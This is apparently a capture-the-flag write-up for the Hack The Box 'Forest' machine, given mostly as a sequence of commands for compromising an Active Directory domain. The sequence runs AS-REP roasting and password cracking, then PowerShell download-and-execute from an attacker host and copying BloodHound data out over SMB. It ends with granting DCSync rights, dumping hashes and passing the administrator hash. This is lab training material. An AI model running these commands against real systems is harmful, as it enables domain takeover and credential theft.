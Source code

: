 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.161
```
![image](https://github.com/regarmulia/HTB/assets/33616880/09d1c960-d99a-4595-8c11-b9c0d1612465)


```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 > ldapsearch.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2d1bca0f-df1d-4d9e-8722-41643add32cc)


```
enum4linux 10.10.10.161
```
![image](https://github.com/regarmulia/HTB/assets/33616880/356699b9-c822-433f-9532-4c79b9d23d13)
![image](https://github.com/regarmulia/HTB/assets/33616880/b8648246-f916-427a-af99-942c65d17d42)


```
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/’
john hash_svc -w=/usr/share/wordlists/rockyou.txt
svc-alfresco | s3rvice
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fac35ad7-2c9f-48f8-a66e-09bcfab14d92)


```
crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0cb0e9ed-0fcf-4be0-9e0c-4983ea641a52)


# SharpHound
```
iex(new-object net.webclient).downloadstring("http://10.10.14.13/SharpHound.ps1")
```
```
invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```
![image](https://user-images.githubusercontent.com/33616880/228747631-d9e4cd27-7ef2-418b-83f3-bf65f8a4a100.png)
![image](https://user-images.githubusercontent.com/33616880/228747656-8d33da1f-b566-403e-a2f3-a4f822120c86.png)


# Copy to Kali
```
./smbserver.py share . -smb2support -username df -password df
```
```
net use \\10.10.14.13\share /u:df df
copy 20230329201446_BloodHound.zip \\10.10.14.13\share\
```
![image](https://user-images.githubusercontent.com/33616880/228748422-ad9ea303-8024-44d4-bcc5-27d3085d3a24.png)
![image](https://user-images.githubusercontent.com/33616880/228748440-68cde53c-8e2b-44f7-b672-7da04a1a6ae7.png)
![image](https://user-images.githubusercontent.com/33616880/228748470-44ad4e6d-1f5d-4938-8850-657fcb3f07d8.png)

# Open BloodHound
```
neo4j console
```
```
./BloodHound --no-sandbox
```
![image](https://user-images.githubusercontent.com/33616880/228749045-07d902b9-414d-4c06-9d03-51c1f168af9a.png)
![image](https://user-images.githubusercontent.com/33616880/228749059-b033ae44-a51a-4bc8-99e9-e506912330b6.png)
![image](https://user-images.githubusercontent.com/33616880/228749077-97736392-a3bf-487f-a241-7185071cb89c.png)


# PrivExec
```
iex(new-object net.webclient).downloadstring("http://10.10.14.13/PowerView.ps1")
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword)
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
![image](https://user-images.githubusercontent.com/33616880/228749660-817a3ba7-36da-47d6-b7a4-0931bc4ab696.png)
![image](https://user-images.githubusercontent.com/33616880/228749695-ae4ac63d-d4de-4ee2-983b-45b42c936ba2.png)

```
./secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
![image](https://user-images.githubusercontent.com/33616880/228750251-f0a28183-07eb-45dc-8dc9-9e196446d932.png)
![image](https://user-images.githubusercontent.com/33616880/228750276-e41cdd61-01d0-4e2a-a8f0-297a4f19f098.png)

```
./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
```
![image](https://user-images.githubusercontent.com/33616880/228750594-596cfeb8-b198-4a99-9807-590e11acd089.png)
OR
```
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```
![image](https://user-images.githubusercontent.com/33616880/228751819-f64860be-ce06-4835-9eb7-75f16ecb31e3.png)
